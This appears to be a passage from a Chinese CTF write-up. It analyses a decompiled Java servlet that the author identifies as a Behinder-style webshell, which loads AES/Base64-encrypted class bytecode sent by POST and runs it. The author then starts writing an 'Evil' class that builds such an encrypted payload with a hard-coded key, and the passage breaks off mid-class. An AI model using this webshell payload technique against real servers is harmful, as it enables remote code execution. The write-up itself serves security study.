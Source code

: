 ```java
            } else {
                k = "ROOT.war";
                String path = System.getProperty("user.dir") + File.separator + ".." + File.separator + "webapps" + File.separator + k;
                File file = new File(path);
                String filename = file.getName();
                BufferedInputStream fis = new BufferedInputStream(new FileInputStream(path));
                byte[] buffer = new byte[fis.available()];
                fis.read(buffer);
                fis.close();
                response.reset();
                response.addHeader("Content-Disposition", "attachment;filename=" + new String(filename.getBytes()));
                response.addHeader("Content-Length", "" + file.length());
                BufferedOutputStream toClient = new BufferedOutputStream(response.getOutputStream());
                response.setContentType("application/octet-stream");
                toClient.write(buffer);
                toClient.flush();
                toClient.close();
            }
        } catch (Exception var10) {
        }

    }
}

```

很明显的类似冰蝎那个jsp马，但是连不上，查了一下说是因为冰蝎还存在密钥协商的过程。

不过代码的逻辑还是很容易理解的，就是post传过去一个先经过AES加密再经过Base64加密的一个恶意类的字节码，然后调用这个类的`e()`方法。

所以就写这么个恶意类，然后产生payload：

```java
package com.feng.test;

import javassist.ClassPool;
import javassist.CtClass;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;
import java.util.Base64;

public class Evil {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("com.feng.test.Evil");
        byte[] code = clazzz.toBytecode();
        String k = "e45e329feb5d925b";
        Cipher c = Cipher.getInstance("AES");
        c.init(1, new SecretKeySpec(k.getBytes(), "AES"));
        byte[] bytes = c.doFinal(code);
        String str = new String(Base64.getEncoder().encode(bytes));
        System.out.println(str);
    }
    //HttpServletRequest request, HttpServletResponse response
```